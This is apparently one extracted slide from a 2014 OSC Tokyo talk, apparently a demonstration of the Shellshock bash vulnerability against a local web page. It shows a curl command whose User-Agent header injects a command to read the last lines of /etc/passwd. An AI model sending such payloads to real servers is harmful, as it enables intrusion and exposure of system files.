

# $ curl -A '() { :; }; /bin/cat /etc/passwd | /usr/bin/tail -n 3' http://localhost/index.php
2014/10/19
OSC Tokyo/Fall 2014
25